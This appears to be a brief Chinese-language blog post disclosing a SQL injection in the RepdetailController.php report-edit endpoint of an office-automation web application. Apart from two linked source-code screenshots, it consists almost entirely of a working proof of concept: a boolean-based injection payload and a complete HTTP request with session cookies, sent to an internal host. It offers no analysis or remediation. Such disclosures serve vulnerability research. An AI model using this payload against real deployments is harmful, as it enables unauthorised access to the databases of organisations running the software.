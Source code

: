 ![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/01.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/02.png)

### RepdetailController.php sql注入

需要一个普通用户
payload：

```
(SELECT (CASE WHEN (9012=9012) THEN 2 ELSE (SELECT 1849 UNION SELECT 1066) END))
```
请求包

```
GET /general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=(SELECT (CASE WHEN (9012=9012) THEN 2 ELSE (SELECT 1849 UNION SELECT 1066) END)) HTTP/1.1
Host: 172.16.70.121
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=aa9bkoinhtbrer8n8m3v86qka1; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=4b0a2547
Connection: close

```